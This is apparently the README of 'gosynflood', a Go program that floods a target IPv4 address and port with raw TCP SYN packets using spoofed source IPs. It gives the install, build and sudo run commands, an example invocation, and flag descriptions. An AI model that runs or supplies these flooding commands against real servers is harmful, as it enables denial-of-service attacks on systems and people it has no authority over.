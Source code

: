 
###### gosynflood - Repeatedly Send Raw TCP SYN Packets

<pre>
  <code>
# get the project
go get github.com/rootVIII/gosynflood


# Navigate to project root and build:
go build .

# raw sockets require root privileges when executing:
sudo ./gosynflood \
    -t &lt;target IPV4 address&gt; \
    -p &lt;port number&gt; \
    -i &lt;network interface&gt;
    -n &lt;number of packets&gt;

# Example:
sudo ./gosynflood -t 192.168.1.120 -p 80 -i wlp3s0 -n 500
  </code>
</pre>

<pre>
  <code>
-t private or public IP address of webserver
-p port number (not required (defaults to port 80 if not provided)
-i network interface (run program without -i to see found interfaces)
-n number of TCP packets to send (defaults to 1000 if not provided)
  </code>
</pre>

Each packet's IP address is spoofed. MAC addresses are not spoofed however.
